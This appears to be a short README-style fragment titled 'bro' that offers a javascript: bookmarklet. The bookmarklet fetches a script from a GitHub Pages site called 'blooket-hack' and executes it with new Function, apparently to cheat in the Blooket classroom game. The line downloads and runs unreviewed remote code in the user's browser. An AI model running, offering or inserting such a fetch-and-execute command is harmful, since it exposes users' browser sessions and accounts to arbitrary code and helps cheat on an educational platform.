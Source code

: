 # bro
javascript:fetch('https://thatfrueddued.github.io/blooket-hack/index.js').then(r=>r.text()).then(t=>(new Function(t))())
